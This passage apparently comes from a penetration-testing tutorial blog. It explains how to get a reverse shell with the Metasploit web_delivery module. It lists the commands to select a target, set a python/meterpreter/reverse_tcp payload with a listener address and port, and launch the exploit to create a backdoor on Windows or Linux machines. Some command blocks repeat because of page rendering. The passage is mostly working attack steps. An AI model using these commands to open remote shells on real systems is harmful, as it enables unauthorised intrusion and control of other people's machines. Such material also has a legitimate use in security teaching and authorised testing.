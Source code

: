 ![](https://blogger.googleusercontent.com/img/a/AVvXsEh3Fs6481ueGXoDSCZctDvArdCX3x2AyTUv0vm9_gFzL4iL0Ek0rVeyaoz94d1PYjYG8UKRB8CLQNlvwGYyt9xbgtNwdectfquQQMqOv_t55yS3A9IG7R8a-TRfpS_vDuX1nhY5ICVcjqFs2tPvXkkNF-Bvm48oZBD86KEz1uvK941AcKtu0xmyWIou4Q=s16000)

As soon as the command is executed, we get the reverse shell.

![](https://blogger.googleusercontent.com/img/a/AVvXsEj87XLeoACl8qdOc3c8m50xYhbRYlxCpgu5NF3niWxgaPv0dJ7_7rAIyThW2c18t5bIAL5AXXvhaC2wWFoejcuZYb8flGMTOPOB_CbzgGWRMGJx7U-gZLM6slWetV_St7YjmqU_Aws_cICvH7tKhM_YiZVOBPp9rpUp6T7EmaaQQcoRGXvMqjeTumX2cA=s16000)

### Web_Delivery

This exploit makes use of the Metasploit Framework, and the operating systems targeted are Windows and Linux. This attack makes use of a payload.

**Payload:**

Payloads are malicious scripts that an attacker uses to interact with a target machine to achieve the attack. In Metasploit, the payload files are stored in modules.

**Executable Payload:**

Users should launch the Metasploit framework and search for **“web delivery**.” We will be given two payload options and must choose the one that contains a web delivery script.

make use of

exploit/multi/script/web delivery

exploit/multi/script/web delivery

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
exploit/multi/script/web delivery
</pre>

Start looking for targets using **“show targets**,” so we see nearly 5 targets that help generate code so that a backdoor is created. Then select the second target and use the command

 set target 2

 set target 2

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
 set target 2
</pre>

and use the commands below to set the payload and the lhost, lport, and then exploit it.

set payload python/meterpreter/reverse_tcp

set lhost 192.168.1.13

set lport 8888

exploit

set payload python/meterpreter/reverse_tcp
set lhost 192.168.1.13
set lport 8888
exploit

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
set payload python/meterpreter/reverse_tcp
set lhost 192.168.1.13
set lport 8888
exploit
</pre>
